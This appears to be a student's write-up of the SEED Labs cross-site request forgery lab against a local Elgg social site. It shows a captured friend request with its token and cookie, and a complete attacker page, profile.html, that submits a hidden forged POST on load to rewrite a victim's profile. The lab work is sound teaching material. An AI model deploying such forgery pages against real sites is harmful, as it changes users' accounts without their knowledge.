

Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_CSRF_Elgg.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the DNS records in `/etc/hosts` on both the attacker and the server:

```
10.0.2.4       www.csrflabelgg.com
10.0.2.15       www.csrflabattacker.com
```

# Task 1

Capture a legitimate friend request from Alice:

```
http://www.csrflabelgg.com/action/friends/add?friend=43&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw
GET /action/friends/add?friend=43&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/profile/boby
X-Requested-With: XMLHttpRequest
Cookie: Elgg=btc2fee9599em32h7tc646bi83
Connection: keep-alive
```

Create a web page as [msg.html](./msg.html):

```html
<html>
    <body>
        
    </body>
</html>
```

And put it into `/var/www/CSRF/Attacker` folder.

Then, send Alice a message that contains the URL: http://www.csrflabattacker.com/msg.html

# Task 2

Observe a legitimate profile save request:

```
Request URL: http://www.csrflabelgg.com/action/profile/edit
__elgg_token=7B0nt3O7twQOHOELADFNtg
__elgg_ts=1589772059
name=Alice
description=<p>dasdsa</p>


accesslevel[description]=2
briefdescription
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=42
```

Create a malicious web page as [`profile.html`](./profile.html):

```html
<html>

<body>
    <h1>This page forges an HTTP POST request.</h1>
    <script type="text/javascript">
        function forge_post() {
            var fields;
            // The following are form entries need to be filled out by attackers.
            // The entries are made hidden, so the victim won't be able to see them.
            fields += "<input type='hidden' name='name' value='Alice'>";
            fields += "<input type='hidden' name='briefdescription' value='Boby is my hero'>";
            fields += "<input type='hidden' name='accesslevel[briefdescription]' value = '2'>";
            fields += "<input type='hidden' name='guid' value='42'>";
            // Create a <form> element.
            var p = document.createElement("form");
            // Construct the form
            p.action = "http://www.csrflabelgg.com/action/profile/edit";
            p.innerHTML = fields;
            p.method = "post";
            // Append the form to the current page.
            document.body.appendChild(p);
            // Submit the form
            p.submit();
        }
        // Invoke forge_post() after the page is loaded.
        window.onload = function () { forge_post(); }
    </script>
</body>

</html>
```

And then place it into `/var/www/CSRF/Attacker` folder. So it can be accessed via http://www.csrflabattacker.com/profile.html. Now send this URL to Alice, if she clicks and opens the website, it will forge an HTTP POST request to edit her `brief description` in profile page. After that, you can see her profile page is updated as:



# Countermeasure

*To test snort rules, ignore the task temporarily.*
